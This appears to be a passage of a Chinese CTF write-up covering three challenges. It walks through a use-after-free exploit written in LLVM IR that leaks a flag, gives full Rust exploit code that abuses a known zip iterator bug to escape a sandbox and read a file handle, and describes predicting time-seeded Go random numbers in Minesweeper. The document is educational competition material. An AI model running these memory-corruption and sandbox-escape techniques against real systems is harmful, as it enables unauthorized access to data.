尝试半天，都没能搞定tcache的问题，结果后来发现——我们base64 encode的东西，在flag的前边加上了那个`flag for u:_`，刚好12个字符，base64 encode之后刚好是16个字符，从第17个开始保留了完整的flag内容。又一次感受到了出题人的贴心。

那我们就用re4d读8个字符试一试：

```
  call void @re4d(i32 16)
  call void @re4d(i32 17)
  call void @re4d(i32 18)
  call void @re4d(i32 19)
  call void @re4d(i32 20)
  call void @re4d(i32 21)
  call void @re4d(i32 22)
  call void @re4d(i32 23)
```

拿到这些以后，我们要利用刚才的use after free，拿到一个inst的控制权了。这里也是如法炮制，在一个分支指令触发bug以后，下一个基本块开头立刻申请刚刚被释放的内存：

```
  br i1 %4, label %5, label %6

5:                                                ; preds = %1
  call void @wher3(i32 112)

```

这里还有小坑，`StoreInst`本身的大小只有64，但LLVM重载了operator new，顺便申请了其中一些内容的内存在旁边，所以malloc实际调用的长度是112。我们也申请112就好了。



StoreInst的地址和我们malloc得到的有一个小偏差，是正常的，因为前面那一部分就是LLVM自己申请的一小段内存，不影响我们用的。



这个看起来就是下一个指令的地址了。偏移是80~87，直接调用wr1te写进去，再用p4int就能把它打出来了。

```
6:                                                ; preds = %5, %1
  call void @wr1te(i32 80, i32 7)
  call void @wr1te(i32 81, i32 6)
  call void @wr1te(i32 82, i32 5)
  call void @wr1te(i32 83, i32 4)
  call void @wr1te(i32 84, i32 3)
  call void @wr1te(i32 85, i32 2)
  call void @wr1te(i32 86, i32 1)
  call void @wr1te(i32 87, i32 0)
  call void @p4int(i32 23)
  ret void
```




注意最后一个Inst的输出就是我们想要的。事实上最后一个字符似乎是有问题的，可能又有一堆virtual table偏移之类的，我们就不管了，只拿7个字符，少拿一点多拿几次。

我们写个脚本一次取7个字符，注意30秒3次的服务器限制，就可以拿到所有我们需要的base64结果：



再拿出来用之前说的特殊解码规则解一下就好了。


## 编原译理习题课 · 实验班

题面好生草233333

Rust基本只能找CVE，这个版本这么低，肯定是干这个用的，我们找到这个zip相关的问题：https://github.com/rust-lang/rust/issues/82282

他给的例子，直接交上去就可以拿到flag1了。

看了看原理非常有意思，在快速版zip（任意寻址迭代器）中为了模拟慢速版zip，增加的额外代码把自己的状态搞坏了，然后这个错误的状态又可以再用另一个zip拿出来，变成一个任一地址读写。

那我们有了这个就好办了。题目的代码里有沙箱，我们不能再打开新文件了，只能想办法拿到主函数里打开的那个File指针。我们实验计算一下偏移，然后用这个偏移获得那个File的可变引用即可。

```rust
#![forbid(unsafe_code)]

fn overflowed_zip(arr: &[i32]) -> impl Iterator<Item = (i32, &())> {
    static UNIT_EMPTY_ARR: [(); 0] = [];

    let mapped = arr.into_iter().map(|i| *i);
    let mut zipped = mapped.zip(UNIT_EMPTY_ARR.iter());
    zipped.next();
    zipped
}

use std::fs::File;
use std::io::Read;

pub fn run() {
    let mut EMPTY_FILE_ARR: [File; 0] = [];
    let EMPTY_ARR: [(); 0] = [];
    let some_arr = [1, 2, 3];
    let mut zip_file = some_arr.iter().map(|i| *i)
        .zip(EMPTY_FILE_ARR.iter_mut());
    zip_file.next();
    dbg!(zip_file.size_hint());

    let mut zip_file2 = zip_file.zip(overflowed_zip(&some_arr));
    dbg!(zip_file2.size_hint());

    println!("sizeof(File): {}", std::mem::size_of::<File>());

    let ((_, file), _) = zip_file2.nth(59).unwrap();
    dbg!(file as *mut File);

    let mut contents = String::new();
    file.read_to_string(&mut contents).unwrap();
    dbg!(contents);
}

//EOF
```


## 扫雷 II

看了一下去年的题，是随机数预测，那这个肯定也是了。我们用`go mod init`本地建立好环境就可以开跑了。

第一题，用当前时间做种子，然后rand.Intn生成地图。那我们就本地也记录一下时间，服务器上踩一个雷获取地图，然后在一个小范围里枚举服务器和本地的时间差，直到生成的地图一样就说明我们猜对了，下一个地图我们就可以直接预测出来了。

第二题，还是用当前时间做种子，但是要随机跳过最多255个随机数再开始取，跳过的数量用的是securerand我们没法预测。没法预测就枚举好了，也不会枚举很多次。可以用第一题大概算出远程时间和本地时间差多少，这个还挺稳定的，也就是十几毫秒的方差，这个用在第二题就只需要枚举10*255次就好了。我们只需要踩一次雷，剩下的枚举都是本地做的。

第三题，棋盘上一些交错的位置被securerand了。但是剩下的位置很多，没被securerand的我们都可以用第一题的方法确定下来的，剩下的。。我们就可以直接用手扫了？

实际上用手扫还是很难的，我扫了两次，花了半小时，每次都最后快乐二选一，还每次都猜错了，心态很崩。于是写了一个简单的推理算法。最简单的那种，周围标够雷数则其他的都可以开，周围未知格子凑够雷数则都标雷，整个过程导出成前端代码调用，输进F12里，剩下的二选一或者解方程就人眼来了，还挺好玩。

以上详见writeup目录里代码`solver.go`。

